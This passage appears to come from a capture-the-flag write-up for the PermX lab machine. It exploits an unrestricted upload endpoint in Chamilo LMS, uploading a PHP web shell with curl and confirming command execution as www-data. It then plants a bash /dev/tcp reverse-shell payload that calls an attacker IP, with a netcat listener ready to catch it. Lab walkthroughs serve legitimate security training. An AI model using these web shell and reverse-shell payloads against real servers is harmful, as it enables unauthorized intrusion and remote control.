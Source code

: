 ### Proof of Concept

**Webshell Generation:**

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

**Upload via cURL:**

```bash
curl -F 'bigUploadFile=@shell.php' \
'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
```

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200">
        <i class="fas fa-check-circle mr-2 text-green-500"></i>
        <strong>Result:</strong> File uploaded successfully
    </p>
</div>

**Functionality Verification:**

```bash
curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/shell.php?cmd=id'
```

Output:

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200 font-bold text-lg">
        <i class="fas fa-terminal mr-2 text-green-500"></i>
        Shell confirmed as www-data!
    </p>
</div>

### Obtaining a Reverse Shell

**Starting listener on attacking machine:**

```bash
nc -lnvp 4455
```

**Creating reverse shell payload:**

```bash
echo '<?php system("bash -c '\''bash -i >& /dev/tcp/10.10.14.12/4455 0>&1'\''"); ?>' > rev.php
```

**Payload Upload:**

```bash
curl -F 'bigUploadFile=@rev.php' \
'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
```
